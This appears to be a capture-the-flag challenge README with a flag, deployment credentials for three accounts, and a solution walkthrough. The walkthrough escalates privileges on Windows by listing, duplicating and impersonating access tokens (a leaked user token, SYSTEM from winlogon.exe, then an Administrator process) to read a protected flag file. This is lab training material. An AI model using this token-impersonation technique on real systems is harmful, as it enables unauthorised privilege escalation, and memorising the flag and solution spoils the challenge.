 # Challenge 03 - The Glass Tile

- Main Flag: `squid-game{R3m3mb3r2Ch3ckT0k3ns}`

## Description

Congratulations players!

If you have made it this far it means that you have given your all in the games. Welcome to the last challenge: **"The Glass Tile"**, the rules of the game are:

- There are no advantages or disadvantages in this game. You might think that it is a matter of "chance", but no... the only thing that matters here is effort and dedication.
- You may be tempted to use the same strategy as in the previous games. It might work for you... or it might not.
- Remember, one wrong step and... you will be eliminated. Just as in a drill, you must think through what you are going to do next and act accordingly.

To get started visit the following link:

https://challenge-03.makemalware.com

Good luck!

## Deploy

Credentials:
- Administrator: `Squ1dG4meAdminCr3d3nt14l!`
- square: `Squ1dG4meSquar3Cr3d3nt14l!`
- webusr: `Squ1dG4meW3bSrvCr3d3nt14l!`

## Solution

```shell
sysinfo

# Checking we can't execute any commands because AppLocker Policies
execute "whoami"
execute -e C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe -- -c Get-Host

# Listing tokens in current process
list_tokens

# Then visit /admin endpoint to trigger a token leak of ".\square" user

# Impersonating ".\square" user
set_token 952
whoami
whoami -g
show_integrity

# Trying to read the flag (access denied)
cd C:/Users/Administrator/Desktop
ls
cat squid-flag.txt

# Searching for winlogon.exe process and duplicate its SYSTEM token
ps
dup_token 1328
list_tokens

# Impersonate SYSTEM and trying to read the flag (access denied again)
set_token 3544
whoami
cat squid-flag.txt

rev2self
whoami

# Searching for an Administrator process and duplicate its token
ps
dup_token 3132
list_tokens
set_token 3132
whoami
ls
cat squid-flag.txt
```